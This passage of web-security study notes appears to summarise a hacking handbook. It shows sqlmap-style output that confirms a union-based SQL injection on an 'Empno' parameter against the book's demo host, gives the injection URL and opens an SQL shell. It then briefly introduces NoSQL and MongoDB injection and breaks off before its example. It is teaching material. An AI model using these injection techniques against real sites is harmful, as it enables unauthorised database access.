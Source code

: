 ```
[14:54:51] [INFO] testing Oracle
[14:54:52] [INFO] confirming Oracle
[14:54:52] [INFO] the back-end DBMS is Oracle
web server operating system: Windows 2000
web application technology: ASP, Microsoft IIS 5.0
back-end DBMS: Oracle

[14:54:53] [INFO] testing inband sql injection on parameter 'Empno' with NULL bruteforcing technique
[14:54:58] [INFO] confirming full inband sql injection on parameter 'Empno'
[14:55:00] [INFO] the target url is affected by an exploitable full inband sql injection vulnerability
valid union: 'http://wahh-app.com:80/employees.asp?Empno=7369%20UNOIN%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20DUAL--%20AND%203663=3663'

[14:55:00] [INFO] calling Oracle shell. To quite type 'x or 'q' and press ENTER
sql-shell> select banner from v$version
do you want to retrieve the SQL statement output? [Y/n]
[14:55:19] [INFO] fetching SQL SELECT statement query output: 'select banner from v$version'
select banner from v$version [5]:
[*] CORE              9.2.0.1.0      Production
[*] NLSRTL Version    9.2.0.1.0   -  Production
[*] Oracle9i Enterprise Edition Release 9.2.0.1.0 - Production
[*] PL/SQL Release 9.2.0.1.0    -   Production
[*] TNS for 32-bit Windows: Version 9.2.0.1.0  - Production

sql-shell>
```

## SQL Syntax and Error Reference
Every database produces different error messages whose meanings you need to understand both when probing for flaws and when attempting to craft an effective exploit. Pages 332 to 338 in "The Web Application Hacker's Handbook" contains a brief cheat sheet that you can use to look up the exact syntax you need for a particular task and to decipher any unfamiliar error messages you encounter.

## Injecting into NoSQL
NoSQL data stores represent data using key/value mappings and do not reply on a fixed schema such as a conventional database table. Keys and values can be arbitrarily defined, and the format of the value generally is not relevant to the data store. A futher feature of key/value storage is that a value may be a data structure itself, allowing hierarchical storage, unlike the flat data structure inside a database schema.

Here are some of the common query methods used by NoSQL data stores:
- Key / value lookup
- XPath 
- Programming languages such as JavaScript

### Injecting into MongoDB
If queries are built using string concatenation, an attacker can attempt to break out of the data context and alter the query's syntax. Consider the following example, which performs a login based on user records in a MongoDB data store:
